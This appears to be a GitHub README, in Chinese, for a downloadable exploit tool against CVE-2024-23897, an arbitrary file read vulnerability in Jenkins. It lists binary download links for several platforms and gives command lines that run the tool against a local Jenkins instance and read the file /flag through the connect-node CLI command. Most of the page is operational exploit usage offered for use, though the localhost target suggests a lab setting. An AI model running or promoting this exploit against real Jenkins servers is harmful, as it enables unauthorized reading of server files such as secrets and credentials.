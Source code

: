 ### CVE-2024-23897
> CVE-2024-23897 jenkins 存在任意文件读取

下载工具

- [macOS-arm64](https://github.com/wjlin0/CVE-2024-23897/releases/download/v1.0.2/CVE-2024-23897_1.0.2_macOS_arm64.zip)

- [macOS-amd64](https://github.com/wjlin0/CVE-2024-23897/releases/download/v1.0.2/CVE-2024-23897_1.0.2_macOS_amd64.zip)

- [linux-amd64](https://github.com/wjlin0/CVE-2024-23897/releases/download/v1.0.2/CVE-2024-23897_1.0.2_linux_amd64.zip)

- [windows-amd64](https://github.com/wjlin0/CVE-2024-23897/releases/download/v1.0.2/CVE-2024-23897_1.0.2_windows_amd64.zip)

- [windows-386](https://github.com/wjlin0/CVE-2024-23897/releases/download/v1.0.2/CVE-2024-23897_1.0.2_windows_386.zip)

```shell
CVE-2024-23897 -u http://localhost:9002/
```

![image-20240413122058087](./img/README/image-20240413122058087.png)

读取`/flag` 文件

```sh
CVE-2024-23897 -u http://localhost:9002 -c connect-node -a /flag
```

